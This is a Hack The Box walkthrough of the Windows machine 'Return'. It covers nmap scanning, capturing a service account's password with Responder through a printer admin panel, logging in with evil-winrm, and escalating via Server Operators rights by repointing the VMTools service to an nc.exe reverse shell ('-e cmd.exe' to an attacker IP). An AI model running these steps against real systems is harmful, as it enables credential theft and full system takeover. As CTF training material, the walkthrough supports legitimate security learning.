



# HTB - Return

#### Ip: 10.10.11.108
#### Name: Return
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

Lets kick things off by using Nmap to scan all TCP ports to see what's open on this box. I'll also use the `--min-rate 10000` flag to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.108 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:01 CDT
Nmap scan report for 10.10.11.108
Host is up (0.082s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49679/tcp open  unknown
49682/tcp open  unknown
49694/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```

Lets dive deeper by also using the `-sV` and `-sC` flags to enumerate versions and use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo nmap -sC -sV -T4 10.10.11.108 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:04 CDT
Nmap scan report for 10.10.11.108
Host is up (0.071s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-05 19:22:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T19:23:51
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 18m33s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.95 seconds
```

Ok cool, looks like we are dealing with an Active Directory box here. 

I always like to start off my enumeration by looking at LDAP:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ nmap -n -sV --script "ldap* and not brute" 10.10.11.108
```

This didn't return much of use for us, but did drop a DNS Hostname:


Lets go ahead and add return.local and printer.return.local to `/etc/hosts`

Checking out return.local, we find a Printer Admin Panel. Poking around a bit more we see an interesting Settings page:



Going off a hunch I start a Responder listener on my tun0 interface using:

```text
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ sudo responder -I tun0 -wv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
```

And change the 'Server Address' field to my tun0 IP address and click update.

Nice looks like we were able to capture the passsword for svc-printer!


Awesome! We can use these creds to directly logon to the box:

```text                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Return]
└─$ evil-winrm -u svc-printer -p '1edFg43012!!' -i 10.10.11.108

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Documents> hostname
printer
```
Lets grab the user.txt flag:


### Privilege Escalation

Running `whoami /all` shows we are are in a high level shell, but more importantly, it looks like we are also in the Server Operators Group



Because svc-printer is in the server operators group, that means we can start and stop services on the machine.

Lets see what services are running here:


Cool, lots to choose from! Lets kick this off by uploading nc.exe to the target. Once nc.exe is on the target our goal will be to modify the path for one of the services, stop the service, set up a netcat listener, and finally restart the service, which should give us back a reverse shell with elevated permissions.

Lets try the VMTools service first:

```text
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.7 8888"
```

Then we need to set up a listener and simply stop and start the service:

```text
sc.exe stop VMTools
sc.exe start VMTools
```

And sure enough we catch a shell back!


All that's left to do now is grab the root.txt flag:



Thanks for following along!

-Ryan

-------------------------------------------------------------------------
